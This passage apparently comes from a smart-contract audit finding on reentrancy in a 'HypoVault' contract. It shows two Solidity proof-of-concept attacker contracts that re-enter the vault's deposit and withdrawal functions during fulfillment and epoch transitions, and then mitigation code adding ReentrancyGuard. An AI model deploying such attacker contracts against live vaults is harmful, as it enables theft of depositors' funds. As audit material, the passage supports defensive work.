 ```solidity
}

contract MaliciousContractCritical {
bool public attackExecuted;

function rebalanceStrategy() external {
    if (!attackExecuted) {
        attackExecuted = true;
        console.log("CRITICAL ATTACK: Interfering with fulfillment process");
        
        try HypoVault(msg.sender).requestDeposit(50 ether) {
            console.log("SUCCESS: Added new deposit during fulfillment");
        } catch {
            console.log("FAILED: New deposit failed");
        }
        
        uint256 currentEpoch = HypoVault(msg.sender).depositEpoch();
        console.log("Current epoch during fulfillment:", currentEpoch);
    }
}
}

contract MaliciousContractTiming {
bool public attackExecuted;
bool public withdrawalManipulated;

function timingAttack() external {
    if (!attackExecuted) {
        attackExecuted = true;
        console.log("TIMING ATTACK: Exploiting state transition");
        
        try HypoVault(msg.sender).requestWithdrawal(1) {
            console.log("SUCCESS: Made withdrawal request during transition");
            withdrawalManipulated = true;
        } catch {
            console.log("FAILED: Withdrawal request failed");
        }
        
        uint256 reserved = HypoVault(msg.sender).reservedWithdrawalAssets();
        console.log("Reserved assets during transition:", reserved);
    }
}
}
```

## Recommended Mitigation Steps

1. **Add Reentrancy Protection**: Import and inherit from OpenZeppelin's `ReentrancyGuard`

```solidity
import "@openzeppelin/contracts/security/ReentrancyGuard.sol";

contract HypoVault is ERC20Minimal, Multicall, Ownable, ReentrancyGuard {
    
    function manage(
        address target,
        bytes calldata data,
        uint256 value
    ) external onlyManager nonReentrant returns (bytes memory result) {
        result = target.functionCallWithValue(data, value);
    }
    
    function manage(
```